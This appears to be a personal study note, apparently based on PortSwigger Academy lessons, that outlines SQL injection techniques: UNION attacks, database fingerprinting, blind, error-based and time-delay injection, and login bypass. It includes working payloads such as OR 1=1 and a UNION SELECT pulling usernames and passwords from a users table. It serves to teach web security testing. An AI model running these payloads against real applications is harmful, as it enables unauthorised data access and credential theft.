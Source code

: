 # Retrieving hidden data

simple attack -> `'+OR+1=1--`  [[WEB/vulnerabilities/SQL Injection/attack/payload#Retrieving hidden data#simple attack|example]]

## UNION attacks
##### concept:
<mark style="background: #FFB86CA6;">to retrieve data from other tables</mark> ->
- The individual queries must return the **same number of columns**.
- The **data types** in each column must be compatible between the individual queries.
### 1) number of columns required
- use `ORDER BY` -> `' ORDER BY [number]--` until you hit an error
- use `UNION SELECT` -> `' UNION SELECT NULL,NULL[...]--` -> until additional row in the result set (it is possible to get erros like `NullPointerException` or even same response as without null ) 
**Note**: On _Oracle_ databases, every `SELECT` statement must specify a table to select -> use `from dual`
### 2) Finding columns with a useful data type

- interesting data type = normally string type -> `UNION SELECT` 
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
`Conversion failed when converting the varchar value 'a' to data type int.` -> probably not suitable 

### 3) retrieve interesting data
- for example username and password from a table called users:
`' UNION SELECT username, password FROM users--`
#### multiple values within a single column
- use String Concatenation (different databases use different syntax) [[cheatsheet(portswigger)#String concatenation|see cheatsheet]]
	- example: `||` ->  `' UNION SELECT username || '~' || password FROM users--`  
## Examining the database

- database type and version [[WEB/vulnerabilities/SQL Injection/attack/payload#Examining the database|examples]]
	- _Microsoft, MySQL_ -> `SELECT @@version`
	- _PostgreSQL_ -> `SELECT version()`
	- _Oracle_ -> `SELECT * FROM v$version`
## Listing the contents 

- _Oracle_ [[WEB/vulnerabilities/SQL Injection/attack/payload#Listing the contents|examples]]
  - `all_tables`
  - `all_tab_columns`
- _all other databases_ -> `information_schema` 
  - `information_schema.tables`
  - `information_schema.columns`

# Blind SQL injection
##### concept:
-> when HTTP responses <mark style="background: #ADCCFFA6;">do not contain</mark> the *results of the relevant SQL query* or the *details of any database errors*.
## triggering conditional responses

1) the application does *behave differently(in response)* when faces with true/false conditional statement (example: `'1'='1` / `'1'='2`) in:
	- Parameters 
	- Cookies
	- HTTP Headers
2) determine the length of data you want to retrive using *`LENGTH`* 
3) use: 
	- Oracle: *`SUBSTR`*
	- non-Oracle: *`SUBSTRING`* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional responses|example]]
## Error-based

### triggering conditional errors
- injecting different boolean conditions makes no difference to the application's responses -> *raise an error* by *injecting a condition query* -> use *`CASE`* keyword [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering conditional errors|examples]]
### verbose SQL error messages

- verbose error -> find out about *context* -> easier to construct a valid query:
> `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

- generate an error message that *contains some of the data* that is returned by the query -> turns blind into visible -> use *`CAST()`* keyword: [[WEB/vulnerabilities/SQL Injection/attack/payload#verbose SQL error messages|example]]
>`CAST((SELECT example_column FROM example_table) AS int)`
>-> `ERROR: invalid input syntax for type integer: "Example data"`
## triggering time delays

 - application catches database errors and handles them -> *delay* in *execution* of the SQL *query* [[WEB/vulnerabilities/SQL Injection/attack/payload#triggering time delays|examples]]
look for syntax in different databases -> [[cheatsheet(portswigger)#Time delays|Here]]
# Subverting application logic

simple attack -> `'--` [[WEB/vulnerabilities/SQL Injection/attack/payload#Subverting application logic#simple attack|example]]
